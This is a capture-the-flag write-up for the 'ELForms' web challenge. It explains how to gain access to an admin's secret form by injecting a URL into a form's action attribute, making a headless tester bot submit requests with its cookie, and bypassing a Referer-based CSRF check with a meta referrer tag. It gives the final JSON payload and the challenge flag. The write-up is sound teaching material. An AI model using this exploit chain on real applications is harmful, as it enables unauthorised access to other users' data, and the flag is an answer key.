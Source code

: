 # K.U.N.A.L Consulting

- Published: 12/24/2024 (#24/25 in event)
- Category: Web exploitation
- Points: 130
- Author: GodderE2D

“It was snowing this morning,” Agent Aspen said.

“I know it’s your last day—but we have something for you to do. It won’t take long, I promise.”

We’re anticipating that K.U.N.A.L himself is coming after our systems. We have this internal software that another
intern created a few years ago; we’ve been using it ever since they pitched it to Santa. Santa was impressed, but after
taking a closer look it doesn’t look very secure at all.

[https://elforms.csd.lol/](https://elforms.csd.lol/) (source code is attached)

---

_**You are only allowed to test in the scope `https://*elforms.csd.lol/*`.** Blind brute-force request sending (e.g.,
using tools like DirBuster) can trigger Cloudflare rate limits. Do not attempt to bypass Cloudflare limits. Therefore,
if you wish to brute-force, please limit your wordlists or attack scope._

## Attachments

- [Source code](https://files.vipin.xyz/api/public/dl/NcRnfu5V/Day%2024%20-%20ELForms/elforms.tar.gz)

## Hints

**Hint 1:**  
Taking a look at `init-db.js`, it appears that the “admin” user creates a form that has the flag as the name. Are there
any attack vectors to getting the name of this form?

Take a look at your browser’s DevTools (particularly the Sources, Network, and Application tabs) and try to compare
requests with responses from the API in the two `server.js` files. Do you notice anything insecure that can be
exploited?

**Hint 2:**  
Running the Docker container locally or running the two servers manually may be helpful.

What does `POST /forms/test` do? What does the `csrf` function check for? How can those be possible exploited?

## Write-up

<details>
<summary>Reveal write-up</summary>

First, in `/init-db.js`, we can see where the flag will be stored:

```js
db.prepare(
  `insert into user (id, username, password) values (
    'f02536d1-a338-4d15-bcaa-c9ffbd2659a8',
    'admin',
    '$2y$10$c2VPz9tvLkA.ApNmD.W6X.JTcRYY2/2nJM5cFDOXYAl5rS1XVjcL6'
  )`
).run();

db.prepare(
  `insert into form (id, author_id, name, description, questions, meta, public) values (
    '7e27fe8a-447e-4c8f-bb37-133aae88f07e',
    'f02536d1-a338-4d15-bcaa-c9ffbd2659a8',
    ?,
    'top secret form',
    '[{"name":"foo","defaultValue":"bar"},{"name":"foo","defaultValue":"bar"}]',
    '{"og:title":"...","og:description":"top secret form"}',
    0
  )`
).run(process.env.FLAG || "csd{test_flag}");
```

The admin user creates a form with the flag as the title, but we don't have access to this form.

Upon signing up, we can attempt to create a form. Note that the homepage mentions "testing" a form submission, which may
hint that this is a cross-site scripting (XSS) challenge.

Let's first create a test form by inputting random values into `/forms/create`:

![Form submit page](/blog-assets/elforms-advent-of-ctf-2024/form-submit.png)

We can see that the default values we inputted are indeed pre-filled into the fields. Submitting the form sends a POST
request to the same URL, simple HTML forms. No JavaScript is involved here.

Note that this is also a different domain than our original URL: `form-elforms.csd.lol` rather than `elforms.csd.lol`.

Now, let's try going back to `/forms` and pressing the Test button. We get a message that an elf will go "test" our
form, but there are no updates beyond that.

Taking a look at the source code, we can see that the code to test the form in `/main/server.js` looks pretty normal:

```js
await page.setCookie({
  name: "token",
  value: token,
  domain: process.env.MAIN_BASE_URL.replace("http://", "").replace("https://", ""),
  path: "/",
  expires: Date.now() + 30 * 24 * 60 * 60 * 1000,
  httpOnly: true,
  secure: false,
});

await page.goto(url);

await setTimeout(1000);

await page.locator("#submit").click();

await setTimeout(1000);

await page.close();
```

It sets a `token` cookie with `elforms.csd.lol` (from the environment variable), waits a second, looks for a button on
the page with the ID `submit`, and clicks on it. It then waits another second and closes the page.

```js
cluster.queue({
  url: `${process.env.FORM_BASE_URL}/${encodeURIComponent(form.name)}_${form.id}`,
  token: jwt.sign({ id: tester.id }, process.env.JWT_SECRET, {
    expiresIn: "30d",
  }),
});
```

The `token` cookie is a valid and signed [JSON Web Token (JWT)](https://en.wikipedia.org/wiki/JSON_Web_Token) of the
tester, who by default is the admin. However, the cookie is stored on the `elforms.csd.lol` domain, which is not the
same as the form submission domain `form-elforms.csd.lol`. More on this later.

Note that we can only test our own forms:

```js
if (form.author_id !== user.id) return res.status(401).send("Unauthorized");
```

It checks this by getting the username from our JWT cookie:

```js
function getUser(req) {
  if (!req.cookies.token) return;

  try {
    const { id } = jwt.verify(req.cookies.token, process.env.JWT_SECRET);
    if (typeof id !== "string") return false;

    return db.prepare("SELECT id, username FROM user WHERE id = ?").get(id);
  } catch (error) {
    console.error(error);
    return false;
  }
}
```

There is something else that stands out—it adds the tester to the `shared_ids` of the form.

```js
const shared_ids = form.shared_ids ? JSON.parse(form.shared_ids) : [];
shared_ids.push(tester_id);
// ...
db.prepare("UPDATE form SET shared_ids = ? WHERE id = ?").run(JSON.stringify([...new Set(shared_ids)]), id);
```

And when checking which forms a user can see and edit, the server checks if the user is in the `shared_ids` of the form:

```js
const forms = db.prepare("SELECT * FROM form WHERE author_id = ? OR shared_ids LIKE ?").all(user.id, `%${user.id}%`);
```

Hm, but you shouldn't need to _edit_ the form to submit a form. This seems weird, there could be something more to this.

We can't just edit `tester_id` to be our own ID, as that wouldn't be our own logged in ID (according to the cookie).
But, we can use the _tester_ (who has the admin cookie) to test the admin form which has the flag as the name.

So, we need to specify our own user ID as the `tester_id` to add it to the `shared_ids` list and specify `id` to be the
top secret form ID from `/init-db.js`.

So, how can we utilize the tester's cookie? We need to either extract it, or have it run a request while it's testing to
have the cookie attached to the request.

We can't extract the cookie—recall that the cookie is
[HTTP-only](https://developer.mozilla.org/en-US/docs/Web/Security/Practical_implementation_guides/Cookies#httponly). It
must be attached to a request.

Well, it won't be attached to just any request we make. It has to be on that domain, which is `elforms.csd.lol`.

Let's start going through the source code for the form submission page.

In `/form/views/pages/form.ejs`, we can see that the form name and ID are concatenated together with an underscore in
the action attribute:

```html
<form action="<%= form.name %>_<%= form.id %>" method="post" id="form" class="mb-2"></form>
```

In HTML, the [`action` attribute](https://developer.mozilla.org/en-US/docs/Web/HTML/Reference/Elements/form#action)
allows us to change the URL where the form is submitted.

Well, we have control over the name of the form. Plus, the `/` is not included in the original code, so we can specify
any URL from any domain we want! (But the resulting URL will have the underscore and form ID at the end.)

That's not a problem, though. We can simply append a URL fragment and it won't be included in the network request at
all.

So, if we have our form name be `http://elforms.csd.lol/forms/test#`, it will result in something like
`action="http://elforms.csd.lol/forms/test#_51fbbcda-8a1d-4ea7-9f03-fc8498d37657"`.

That will resolve to just `http://elforms.csd.lol/forms/test` in the network request. Conveniently, `POST /forms/test`
also allows `application/x-www-form-urlencoded` for the body. So, we should just be able to set the field names and the
default field values to the values we want.

Let's craft a form for our tester to use:

```json
// POST /forms/create
{
  "name": "https://elforms.csd.lol/forms/test#",
  "description": "...",
  "questions": [
    { "name": "id", "defaultValue": "7e27fe8a-447e-4c8f-bb37-133aae88f07e" },
    {
      "name": "tester_id",
      "defaultValue": "07cf1609-5c89-4df2-998d-df04102cb1b9"
    }
  ]
}
```

Recall that `7e27fe8a-447e-4c8f-bb37-133aae88f07e` is the ID of the top secret form we want to make public to us.

We can also get our account ID for `tester_id` by decoding the JWT:

```bash
$ echo 'eyJpZCI6IjA3Y2YxNjA5LTVjODktNGRmMi05OThkLWRmMDQxMDJjYjFiOSIsImlhdCI6MTc0ODEyMzc1MCwiZXhwIjoxNzUwNzE1NzUwfQ' | base64 --decode | jq
base64: invalid input
{
  "id": "07cf1609-5c89-4df2-998d-df04102cb1b9",
  "iat": 1748123750,
  "exp": 1750715750
}
```

However, a problem now arises. We are blocked by the `csrf()` middleware!

```js
function csrf(req, res, next) {
  if (req.headers.referer && !req.headers.referer.startsWith(process.env.MAIN_BASE_URL)) {
    return res.status(403).send("Forbidden");
  }

  next();
}
```

However, this is a
[Referer-based CSRF check](https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses) and can be
bypassed here by not having a `Referer` header at all.

Well, conveniently, we can also custom-set our own meta tags, and one way to prevent the site from sending the Referer
header in requests is by using `<meta name="referrer" content="none">`:

```ejs
<% Object.entries(form.meta).forEach(([name, content]) => { %>
<meta name="<%= name %>" content="<%= content %>" />
<% }); %>
```

So, our final payload to `POST /forms/create` is:

```json
// POST /forms/create
{
  "name": "https://elforms.csd.lol/forms/test#",
  "description": "...",
  "questions": [
    { "name": "id", "defaultValue": "7e27fe8a-447e-4c8f-bb37-133aae88f07e" },
    {
      "name": "tester_id",
      "defaultValue": "07cf1609-5c89-4df2-998d-df04102cb1b9"
    }
  ],
  "meta": {
    "referrer": "none"
  }
}
```

Please note that the URL in `name` is `https`, not `http`. Chromium will warn you if you send a form request in an
insecure HTTP request.

After creating this form, let's go back to `/forms` and press the Test button. After a few seconds, let's navigate back
to `/forms`:

![Forms with flag](/blog-assets/elforms-advent-of-ctf-2024/forms-with-flag.png)

Looks like we've successfully added our user ID to the top secret form's `shared_ids`! Merry Christmas Eve!

Flag: `csd{wh4t_4N_3v3ntFuL_cHR15TM45_3v3}`

</details>

Write-up by GodderE2D
